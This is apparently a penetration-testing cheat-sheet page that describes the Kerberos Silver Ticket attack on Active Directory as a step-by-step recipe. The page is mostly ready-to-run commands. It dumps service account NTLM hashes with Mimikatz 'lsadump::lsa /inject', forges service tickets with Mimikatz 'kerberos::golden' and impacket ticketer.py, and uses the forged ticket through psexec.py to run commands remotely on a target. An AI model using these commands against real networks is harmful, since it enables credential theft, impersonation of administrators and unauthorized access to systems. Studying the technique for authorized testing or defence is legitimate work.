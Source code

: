 # Silver Ticket

The **Silver ticket attack** involves the creation of a valid **Ticket Granding Service (TGS)** for a **specific service** when the password hash of the service is obtaned.\
This allows unauthorized access to the service by forging a customized TGS without create a auth connection with the Domain Controller.

**Required:&#x20;**<mark style="color:purple;">**Service account obtained and**</mark> [<mark style="color:purple;">**PtH**</mark>](../ad-lateral-movement/pass-the-hash.md) <mark style="color:purple;">**session**</mark>

#### Methodology:

* Get Domain Info
* Get a Service Account NTLM hash
* &#x20;Forge Silver Ticket



## Get Domain Info

{% code title="From Windows" %}
```powershell
. .\PowerView.ps1
Get-Domain # Domain Name
Get-DomainSID # Domain SID
```
{% endcode %}

{% code title="From Linux" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0
```
{% endcode %}



## Get a Service Account NTLM hash

### Invoke-Mimikatz.ps1

From obtained session from PtH:

Run the following commands to find the computer account password hash for the target machine

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -Computername $TARGET_NAME.local
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (111).png" alt="" width="563"><figcaption></figcaption></figure>



## Forge Silver Ticket

### Mimikatz (Windows)

Open another powershell terminal and run follow command:

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:$DOMAIN.local /sid:$DOMAIN_SID /target:$DOMAIN_CONTROLLER /service:$SERVICE_NAME /rc4:$SERVICE_ACCOUNT_NTLM_HASH /user:$USER_TO_IMPERSONATE /ptt"'
```
{% endcode %}

> _example:_  `mimikatz.exe "kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt"`

Params:

* **/domain** – the fully qualified domain name. In this example: “lab.adsecurity.org”.
* **/sid** – the SID of the domain. In this example: “S-1-5-21-1473643419-774954089-2222329127”.
* **/user** – username to impersonate (can be fake)
* **/ptt** – as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
* **/id (optional)** – user RID. Mimikatz default is 500 (the default Administrator account RID).
* **/service** – the kerberos service running on the target server. This is the Service Principal Name class (or type) such as cifs, http, mssql.
* **/rc4** – the NTLM hash for the service (computer account or user account)
* **/target** – the target server’s FQDN.

### Ticketer.py (Linux)

This impacket script is usefull to forge a ticket with .**ccache output** file.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/ticketer.py" %}

> Kali path: _/usr/share/doc/python3-impacket/examples_

{% code overflow="wrap" %}
```bash
python3 ticketer.py -spn $SPN_NAME -user-id 500 Administrator -nthash $PWD_HASH_ACCOUNT_OBTAINED -domain-sid $DOMAIN_SID -domain $DOMAIN.local
```
{% endcode %}

Check the tickets with `klist` command.

To set up the silver ticket for use, the **KRB5CCNAME** environment variable needs to be set to the path of the .ccache file, which can be an absolute or relative file path:

```
export KRB5CCNAME=Admnistrator.ccache
```

#### Use psexec with ticket to connect with compromised machine

```bash
psexec.py $DOMAIN.local/$Administrator@$TARGET_NAME -target-ip $TARGET_IP
-dc-ip $DC_IP -no-pass -k
# -no-pass: skip password-based authentication
# -k: kerberos ticket taken from the KRB5CCNAME env var
```











